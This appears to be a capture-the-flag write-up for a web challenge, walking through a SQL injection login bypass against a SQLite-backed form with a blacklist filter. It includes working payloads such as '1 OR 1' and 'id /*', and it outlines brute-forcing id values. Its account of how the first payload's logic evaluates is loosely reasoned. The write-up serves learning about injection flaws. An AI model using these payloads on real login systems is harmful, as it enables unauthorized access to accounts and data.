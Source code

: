 **Name**: Blacklist  
**Points**: 200  
**Instructions**: There is a website running at http://challenges.runesec.com:37953. Can you login? If not, try smarter not harder.  
**Hint**: Some hackers love the quote symbol. Some developers love the blacklist approach. What about you?  

## Exploration

- We're given the following login portal:
```
<div class="form-group">
   <label for="username">ID:</label>
   <input type="number" id="username" name="id" class="form-control">
</div>
<div class="form-group">
   <label for="password">Password:</label>
   <div class="controls">
      <input type="password" id="password" name="password" class="form-control">
   </div>
</div>
```

- From the hint of this challenge, we know we'll have to craft an SQL injection query to get through. We also know there's a blacklist that filters out some SQL semantics from the input.

- The first HTML input field (for username/id) has `type="number"` so it can only accept numeric values. Not really. We can edit the type to `type="text"` through our browser's dev tools and input whatever we want. 

- We could also send our requests outside of the browser, through `curl`, for example.

- Using `'` and `"` in the inputs makes the page throw some errors:  
```
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "\" in /problems/blacklist_6/webroot/login.php on line 20   
Fatal error: Uncaught Error: Call to a member function fetchArray() on boolean in /problems/blacklist_6/webroot/login.php:22 Stack trace: #0 {main} thrown in /problems/blacklist_6/webroot/login.php on line 22
```

## Exploitation

Let's try guess what query is invoked on the server to authorize us:
```
SELECT * FROM ??? WHERE ???={input} AND ???="{input}";
```
We have no idea what the table is named.  
We have some idea what the 2 columns might be called. `id` and `password` maybe? Let's go with that.

So our guess now is:
```
SELECT * FROM ??? WHERE id={input} AND password="{input}";
```

So, for us to get through, it all boils down to making the expression `id={input} AND password="{input}"` evaluate to true.

*Notice there are no quotes around the input for id. That's because it's expecting a numeric value. We can be confident about that since the UI is only allowing for numeric input.*

#### Solution 1
```
Username: 1 OR 1  
Password:  
```
Which results to the following crafted query on the server:
```
SELECT * FROM ??? WHERE id=1 OR 1 AND password="";
```

> SQLite does not have a separate Boolean storage class. Instead, Boolean values are stored as integers 0 (false) and 1 (true). (https://sqlite.org/datatype3.html)

The crafted query above works because `false OR true AND false` => `true`, since `anything OR true` evaluates to `true`, always.  

We're lucky `OR` is not blacklisted.

#### Solution 2
```
Username: id /*  
Password:  
```
Which results to the following crafted query on the server:
```
SELECT * FROM ??? WHERE id=id /* AND password="";
```

For this to work we have to correctly guess the column for the username/id field. `id=id` is always `true` since we compare something with itself. `/*` opens a multi-line comment which makes whatever comes after it irrelevant when the query is evaluated. Thus, the password doesn't matter.

#### More Solutions
There are plenty of crafted queries that can get us in, but we have a strong preference towards short and concise solutions.  

We could also (naively) write a script to brute force the id:
`id=0 /*`  
`id=1 /*`  
`id=-1 /*`  
`id=2 /*`  
`id=-2 /*`  
...  
`id=9000 /*`  
`id=-9000 /*`  
...  
...  
...  
*To infinity and beyond!*
